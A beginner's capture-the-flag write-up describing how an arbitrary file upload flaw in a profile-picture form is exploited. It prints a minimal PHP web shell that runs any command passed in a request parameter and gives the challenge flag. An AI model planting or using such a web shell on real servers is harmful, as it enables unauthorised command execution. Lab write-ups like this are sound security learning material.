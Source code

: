 My first ctf report which has Arbitary File Upload Vulnerability.
1. Firstly, I visited the login page(login.html) 
2. Registered myself and then logged in.
3. Then, I tried to look into the page source but nothing came out to be useful for me.
4. After looking into every other pages , I found the upload feature in profile.html
![upload](https://github.com/AmanDekate1/SecurityBoat-2024-CTF-January-Challenge/assets/101728835/7bec370b-f66c-41ac-b3a4-45711a84fe45)

5. Then i looked for the arbitary file upload feature.
6. First I uploaded a sample image, and checked its location on server using inspect element.

7. It was time for a script..
  <?php 
  if(isset($_REQUEST['cmd'])){
      $cmd = ($_REQUEST['cmd']);
      system($cmd);
  }?>


8. Uploading my script. After a message "File Uploaded Successfully!" all I need to do is go to the uploaded image directory (assets/profPic/shelly.php) to make my script working.
9. We got the command execution!
![works](https://github.com/AmanDekate1/SecurityBoat-2024-CTF-January-Challenge/assets/101728835/7d5e53b5-c00e-4312-8e44-2214b7a7b4d0)

![flag](https://github.com/AmanDekate1/SecurityBoat-2024-CTF-January-Challenge/assets/101728835/66d76444-ab19-4d49-85f3-9afeb25cbae1)


10. {Unrestr!cted_F!le_Upload_!s_Fun} 
